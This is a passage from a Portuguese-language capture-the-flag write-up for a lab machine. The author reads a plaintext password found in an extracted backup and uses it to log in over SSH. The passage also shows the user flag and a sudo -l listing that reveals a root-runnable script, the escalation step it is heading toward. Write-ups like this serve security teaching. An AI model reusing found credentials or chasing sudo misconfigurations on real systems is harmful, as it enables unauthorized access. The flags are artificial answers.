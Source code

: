 ```bash

./home/alex/Downloads:
total 0

./home/alex/Music:
total 0

./home/alex/Pictures:
total 0

./home/alex/Public:
total 0

./home/alex/Templates:
total 0

./home/alex/Videos:
total 0
```

Depois de extrair o backup e fazer uma listagem recursiva, encontramos o arquivo `./home/alex/Desktop/secret.txt` e `./home/alex/Documents/note.txt`:

```bash
$ cat ./home/alex/Desktop/secret.txt
shoutout to all the people who have gotten to this stage whoop whoop!

$ cat ./home/alex/Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

Agora sim! Vamos tentar entrar com a senha do Alex via SSH:

```bash
$ ssh alex@10.10.121.139
# S3cretP@s3
```

Depois de entrar e fazer uma listagem, só nos resta ler o conteúdo de `user.txt`:

```bash
$ cat user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

Ainda nos resta tentar uma escalação de privilégios para ver se encontramos a última flag que nos falta para completar este desafio. Ao executar o comando `sudo -l`identificamos um arquivo que podemos executar como super usuário sem precisar de uma senha de administrador:

```bash
$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

